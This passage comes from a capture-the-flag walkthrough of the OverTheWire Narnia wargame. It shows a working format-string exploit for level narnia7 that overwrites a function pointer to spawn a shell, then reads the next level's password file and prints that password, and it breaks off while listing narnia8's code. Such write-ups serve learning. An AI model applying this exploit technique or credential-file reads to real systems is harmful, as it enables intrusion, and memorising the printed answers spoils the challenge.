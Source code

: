 **Note**: ASLR is disabled and the program hints us with the addresses of those afformentioned functions.

So, without even the need to fire up gdb one can craft an exploit PoC just by looking at 
the hints (addresses) the program flushes to stdout. Thus, by placing the address of the 
`ptrf` function pointer in the start of our attacker controlled format string, one can 
quickly figure out what should need to do. 

    narnia7@gibson:~$ /narnia/narnia7 AAAA
    goodfunction() = 0x80492ea
    hackedfunction() = 0x804930f

    before : ptrf() = 0x80492ea (0xffffd238)
    I guess you want to come to the hackedfunction...
    Welcome to the goodfunction, but i said the Hackedfunction..

The attacker need to place "0xffffd238" in the stack and then try to right in this address.
What does he/she have to write? The address of `hackedfunction()` which is "0x0804930f". So, 
by placing the `ptrf`'s stack address onto the stack, we already have written 4 bytes. By 
converting "0x0804930f" to an integer which is "134517519", we can create the value we need 
to place inside the `ptrf`'s memory address with the command below: 

    $(echo -ne "\x38\xd2\xff\xff")%134517515x%n 
    
**Note**: We have to substract 4 from 134517519 because we have already written 4 bytes when
placing the `ptrf`'s onto the stack.

Finally, by running `narnia7` with the above command as an argument, one can spawn a shell,
elevate privileges and grab the password for the next and final level.

    narnia7@gibson:~$ /narnia/narnia7 $(echo -ne "\x38\xd2\xff\xff")%134517515x%n 
    goodfunction() = 0x80492ea
    hackedfunction() = 0x804930f

    before : ptrf() = 0x80492ea (0xffffd238)
    I guess you want to come to the hackedfunction...
    Way to go!!!!$ whoami 
    narnia8
    $ cat /etc/narnia_pass/narnia8 
    i1SQ81fkb8

Password: **i1SQ81fkb8**


## narnia8

After connecting to the specific level with `ssh` by typing
    *ssh narnia8@narnia.labs.overthewire.org -p 2226* 
with password 
    *i1SQ81fkb8*

one can find the current's level vulnerable code in the following snippet.

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    int i;
